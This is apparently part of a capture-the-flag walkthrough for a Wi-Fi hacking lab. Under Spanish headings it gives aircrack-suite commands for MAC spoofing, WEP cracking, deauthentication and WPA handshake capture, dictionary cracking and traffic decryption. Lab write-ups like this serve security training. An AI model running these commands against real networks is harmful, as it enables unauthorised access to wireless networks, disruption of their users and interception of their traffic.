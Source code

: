 ## 06. Flag en router wifi-guest
```bash
sudo airodump-ng wlan0mon -w ~/wifi/scanc6 --manufacturer --wps -c6

# open.conf
network={ 
    ssid="wifi-guest" 
    key_mgmt=NONE 
}

wpa_supplicant -Dnl80211 -iwlan2 -c open.conf
dhclient -v wlan2

# Cambiar MAC por cliente autorizado
systemctl stop network-manager
ip link set wlan2 down
macchanger -m MAC_CLIENTE_AUTORIZADO wlan2
ip link set wlan2 up

# Analizar tráfico HTTP en Wireshark
wireshark ~/wifi/scanc6-01.cap
```

## 07. Contraseña WEP wifi-old
```bash
airmon-ng check kill
besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan2 -v
```

**Manual:**
```bash
sudo airodump-ng -c 1 --bssid F0:9F:C2:AA:19:29 -w wifi-old wlan0mon
sudo aireplay-ng -1 3600 -q 10 -a F0:9F:C2:AA:19:29 wlan0mon
sudo aireplay-ng --arpreplay -b F0:9F:C2:AA:19:29 -h CLIENT_MAC wlan0mon
sudo aircrack-ng wifi-old-01.cap
```

## 08. Contraseña wifi-mobile
```bash
airodump-ng wlan0mon -w ~/wifi/scanc6 -c 6 --wps
aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon
aircrack-ng ~/wifi/scanc6-02.cap -w ~/rockyou-top100000.txt
```

## 09. IP del servidor web en wifi-mobile
```bash
airdecap-ng -e wifi-mobile -p PASSWORD ~/wifi/scanc6-02.cap
wireshark ~/wifi/scanc6-02-dec.cap
```

## 10. Flag después del login en wifi-mobile
```bash
# psk.conf
network={
    ssid="wifi-mobile"
    psk="PASSWORD"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}

wpa_supplicant -Dnl80211 -iwlan3 -c psk.conf
```